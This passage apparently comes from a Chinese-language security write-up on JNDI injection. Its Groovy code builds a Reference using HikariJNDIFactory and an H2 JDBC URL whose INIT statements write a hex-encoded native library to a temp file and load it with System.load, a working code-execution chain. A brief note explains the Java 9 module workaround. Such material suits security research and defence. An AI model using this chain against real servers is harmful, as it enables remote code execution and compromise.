 ```plain

// drop the previous alias if exists
list << "DROP ALIAS IF EXISTS CREATE_FILE"
list << "DROP ALIAS IF EXISTS WRITE_FILE"
list << "DROP ALIAS IF EXISTS INVOKE_METHOD"
list << "DROP ALIAS IF EXISTS INVOKE_STATIC_METHOD"
list << "DROP ALIAS IF EXISTS CLASS_FOR_NAME"

// alias some external Java methods
list << "CREATE ALIAS CREATE_FILE FOR 'java.io.File.createTempFile(java.lang.String, java.lang.String)'"
list << "CREATE ALIAS WRITE_FILE FOR 'org.apache.commons.io.FileUtils.writeByteArrayToFile(java.io.File, byte[], boolean)'"
list << "CREATE ALIAS INVOKE_METHOD FOR 'org.apache.commons.beanutils.MethodUtils.invokeMethod(java.lang.Object, java.lang.String, java.lang.Object)'"
list << "CREATE ALIAS INVOKE_STATIC_METHOD FOR 'org.apache.commons.beanutils.MethodUtils.invokeExactStaticMethod(java.lang.Class, java.lang.String, java.lang.Object)'"
list << "CREATE ALIAS CLASS_FOR_NAME FOR 'java.lang.Class.forName(java.lang.String)'"

// use java.io.File.createTempFile() to create a blank file with `.so` extension
list << "SET @file=CREATE_FILE('$prefix', '.so')"

// read native library file and encode it to hex
def content = new File(lib_path).bytes.encodeHex().toString()
// split it into several chunks to avoid SQL length limit
def data = content.toList().collate(500)*.join()

// write the chunks to the file (append mode)
for (d in data) {
   list << "CALL WRITE_FILE(@file, X'$d', TRUE)"
}

// invoke file.getAbsolutePath() to get the absolute path of the temp file
list << "SET @path=INVOKE_METHOD(@file, 'getAbsolutePath', NULL)"
// invoke java.lang.System.load() to load the native library
list << "SET @clazz=CLASS_FOR_NAME('java.lang.System')"
list << "CALL INVOKE_STATIC_METHOD(@clazz, 'load', @path)"

// use INIT property to execute multi SQL statements, and each statement must be separated by `\;`
def url = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=${list.join('\\;')}\\;"

def ref = new Reference("javax.sql.DataSource", "com.zaxxer.hikari.HikariJNDIFactory", null)
ref.add(new StringRefAddr("driverClassName", "org.h2.Driver"));
ref.add(new StringRefAddr("jdbcUrl", url));

return ref
```

这里有几个注意点

首先因为自 Java 9 引入的模块化机制，不能直接使用 `com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename` 写文件，因此需要找到一个来自第三方依赖的可以写文件的静态方法
